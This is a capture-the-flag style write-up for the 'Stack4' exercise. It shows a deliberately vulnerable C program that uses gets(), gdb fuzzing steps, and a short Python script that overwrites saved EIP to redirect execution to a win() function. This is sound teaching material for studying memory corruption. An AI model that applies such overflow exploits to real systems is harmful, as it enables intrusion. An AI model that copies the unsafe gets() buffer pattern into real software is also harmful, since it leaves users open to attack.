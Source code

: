# [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault
![segfault](segfault.png)  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:
```py
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip
print padding+ebp+eip
```
- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`
![pwned](pwned.png)

# OH YEAH WE GOT IT
